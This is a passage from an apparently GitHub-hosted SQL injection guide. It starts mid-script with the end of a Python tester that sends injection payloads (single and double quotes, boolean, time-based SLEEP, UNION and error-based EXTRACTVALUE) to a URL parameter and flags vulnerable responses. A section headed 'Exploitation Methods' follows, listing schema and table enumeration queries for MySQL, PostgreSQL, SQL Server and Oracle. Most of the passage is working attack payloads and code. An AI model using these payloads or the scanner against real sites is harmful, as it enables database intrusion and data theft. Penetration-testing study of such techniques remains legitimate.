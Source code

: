 ```python
            results.append(result)
            
        except requests.RequestException as e:
            print(f"Request failed for payload {payload}: {e}")
    
    return results

# Test payloads
payloads = {
    'single_quote': "'",
    'double_quote': '"',
    'boolean_true': "1' AND '1'='1",
    'boolean_false': "1' AND '1'='2", 
    'time_based': "1' AND SLEEP(5)--",
    'union_test': "1' UNION SELECT null--",
    'error_based': "1' AND EXTRACTVALUE(1,CONCAT(0x7e,@@version,0x7e))--"
}

# Run tests
results = test_sql_injection("http://example.com/page.php", "id", payloads)

# Print results
for result in results:
    if result['vulnerable']:
        print(f"VULNERABLE: {result['payload_type']} - {result['detection_method']}")
        print(f"Payload: {result['payload']}")
```

## ⚔️ Exploitation Methods

### 1. 🗄️ Database Enumeration

#### Information Schema Queries
```sql
-- MySQL/MariaDB
SELECT schema_name FROM information_schema.schemata;
SELECT table_name FROM information_schema.tables WHERE table_schema='database_name';
SELECT column_name FROM information_schema.columns WHERE table_name='table_name';

-- PostgreSQL
SELECT datname FROM pg_database;
SELECT tablename FROM pg_tables WHERE schemaname='public';
SELECT column_name FROM information_schema.columns WHERE table_name='table_name';

-- SQL Server
SELECT name FROM sys.databases;
SELECT name FROM sys.tables;
SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('table_name');

-- Oracle
SELECT owner, table_name FROM all_tables;
SELECT column_name FROM all_tab_columns WHERE table_name='TABLE_NAME';
```
